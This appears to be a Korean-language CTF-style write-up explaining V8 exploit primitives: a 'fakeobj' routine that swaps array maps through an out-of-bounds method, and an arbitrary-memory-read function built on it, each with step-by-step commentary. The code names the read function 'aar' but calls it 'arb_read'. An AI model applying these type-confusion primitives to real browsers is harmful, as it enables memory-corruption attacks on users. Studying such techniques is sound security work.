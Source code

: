 
## fakeobj

```jsx
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function fakeobj(addr) {
    float_arr[0] = itof(addr);
    float_arr.oob(obj_arr_map);
    let fake = float_arr[0];
    float_arr.oob(float_arr_map);

    return fake;
}
```

- 한마디로 표현하자면 fakeobj를 만들어서 리턴 해준다.
- 위 코드의 동작은 다음과 같다.
  - float array map을 object array map으로 변경한다.
  - 해당 float array를 리턴한다.

---

## aar

```jsx
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function aar(addr) {
    if (addr % 2n == 0)
   	    addr += 1n;

    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    return ftoi(fake[0]);
}

arb_read(addr); // address you want
```

동작 과정

1. 4개의 요소를 가지는 배열을 만들고 첫 번째 요소에는 float_arr_map을 넣는다.
2. arb_read 인자로 읽고 싶은 주소를 넘긴다.
3. addrof(arb_rw_arr) - 0x20의 주소를 fake object로 만든다
4. arb_rw_arr의 2번째 요소의 값을 addr - 0x10으로 설정한다.
- 이때의 모습
